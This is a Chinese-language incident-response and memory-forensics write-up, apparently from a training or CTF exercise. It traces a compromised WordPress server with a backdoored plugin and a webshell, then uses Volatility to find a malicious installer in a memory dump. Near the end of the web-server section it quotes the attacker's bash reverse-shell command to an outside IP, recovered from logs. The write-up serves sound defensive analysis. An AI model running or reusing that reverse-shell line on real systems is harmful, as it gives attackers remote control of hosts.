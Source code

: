 # 事件响应
## Web Server
### 任务
- 查找并提交存在后门插件的名称与版本号，并指出该后门的功能
- 分析并指出攻击者如何获取到应用管理员权限
- 提交上述攻击所使用的URL以及获取到管理员信息时执行的完整语句（含注释）
- 请阐述攻击者如何在获得管理员权限后，写入Webshell以提升其权限
- 查找攻击者获得写入的Webshell文件绝对路径
- 查看并提交攻击者写入的Webshell内容
- 分析反弹Shell时使用的恶意IP地址和端口
- 分析攻击者在服务器上开启的端口号及其目的
### 调查过程
在webserver中查看历史命令，计划任务，后门用户和端口，进程
存在其他的端口8024
![](attachment/Pasted%20image%2020230220121713.png)
在Web Server查看本机IP后利用同网段主机访问对应的web服务，发现为WordPress的网站，于是在本机去访问插件对应的目录进行调查
`/var/www/html/wp-content/plugins`
发现在 ==hello.php== 中存在后门代码，功能是能够进行sql查询，但是语句经过rot13和base64的加密
![](attachment/Pasted%20image%2020230219141212.png)

版本在文件开头的注释中
![](attachment/Pasted%20image%2020230219141339.png)

在/var/log/apache2 中发现有日志记录，参数名与插件后门一致
![](attachment/Pasted%20image%2020230219145338.png)
在foot-dark.php中又有命令执行相关日志
![](attachment/Pasted%20image%2020230219150410.png)

查看后发现这个页面可以进行命令执行
![](attachment/Pasted%20image%2020230219150548.png)

关于日志中的加密语句，利用php来进行解密会更加合适和快捷
```php
<?php
$file = 'log.txt';
$file_data = file_get_contents($file);
$data_array = explode("\n", $file_data);
foreach($data_array as $sql_str) {
	echo $sql_str;
	$trans = base64_decode(str_rot13(urldecode($sql_str)));
	echo $trans;
	file_put_content('out.txt',$trans.PHP_EOL, FILE_APPEND);
}
?>
```
细看解密后的log后会发现有一行看了user表，执行后效果是这样
![](attachment/Pasted%20image%2020230220121458.png)
获得用户名与密码
同样对日志中的webshell相关的日志url解码分析
![](attachment/Pasted%20image%2020230220140730.png)
反弹shell
`bash -c "bash i >& /dev/tcp/0x1d205d4/12450 0>&1"`
IP:1.210.5.212


# 数字调查取证
## Dump.raw
### 工作任务
- 识别内存中的恶意进程
- 查找并提交恶意程序在硬盘中上的完整路径
- 分析PE文件以描述其行为
- 分析PE文件寻找攻击者向外传递收集到的信息发送方的地址
### 调查过程
查看镜像类型
![](attachments/Pasted%20image%2020230227090948.png)
查看进程并输入到文本
volatility -f  \[filename\] --profile=\[imageinfo\]  pslist > pslist.txt
![](attachments/Pasted%20image%2020230227091850.png)
volatility -f  \[filename\] --profile=\[imageinfo\]  pstree > pstree.txt
![](attachments/Pasted%20image%2020230227091918.png)
导出对应进程文件
volatility -f \[filename\] --profile=\[imageinfo\] memdump -p \[PID\] -D ./

volatility -f\[filename\] --profile=\[imageinfo\]  filescan
![](attachments/Pasted%20image%2020230227092450.png)
文件路径： `\Device\HarddiskVolume1\User\IEUser\Downloads\SteamInstaller.exe`
在这个dmp文件里面找敏感内容
![](attachments/Pasted%20image%2020230227093739.png)

将exe文件导出
volatility -f \[filename\] --profile=\[imageinfo\] dumpfiles -Q \[偏移地址\] --dump-dir ./
IDA进行逆向
![](attachments/Pasted%20image%2020230227104206.png)